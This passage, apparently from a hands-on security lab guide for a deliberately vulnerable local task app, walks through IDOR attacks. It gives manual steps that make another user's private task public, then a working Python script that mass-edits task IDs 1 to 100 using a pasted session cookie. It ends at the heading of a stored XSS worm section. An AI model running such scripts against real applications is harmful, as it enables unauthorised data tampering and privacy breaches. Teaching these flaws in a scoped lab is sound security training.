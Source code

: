 > That’s it. Keep your tests scoped to your own local RatTasks instance.

---

## 8) IDOR: Force Victim Tasks Public

**Goal:** Use the existing edit IDOR to flip another user’s private task into the public feed.

### Steps

1. Enumerate a task ID owned by another user (see Module 2 for techniques).
2. Visit `http://127.0.0.1:5000/edit/<victim_id>` while logged in as yourself.
3. Check the **Public** box, keep or change the title, and click **Save**.
4. Open `/feed` in a separate tab or browser profile.

### Result

* The victim’s task now appears on the public feed, even though they never opted in. This demonstrates a **privacy impact** from the IDOR.

---

## 9) IDOR: Bulk Tampering Script

**Goal:** Automate BAC exploitation to show how little effort it takes to destroy data at scale.

### Proof-of-concept script (Python + `requests`)

```python
import requests

BASE = "http://127.0.0.1:5000"
COOKIE = {"session": "<paste_your_cookie_here>"}

for task_id in range(1, 101):
    r = requests.post(
        f"{BASE}/edit/{task_id}",
        data={"title": f"Owned #{task_id}", "public": "on"},
        cookies=COOKIE,
        allow_redirects=False,
    )
    if r.status_code == 302:
        print(f"Edited task {task_id}")
```

### Result

* In seconds you can mass-edit titles and flip tasks public, illustrating how dangerous an unprotected IDOR can be once scripted.

---

## 10) Stored XSS Worm via Public Feed
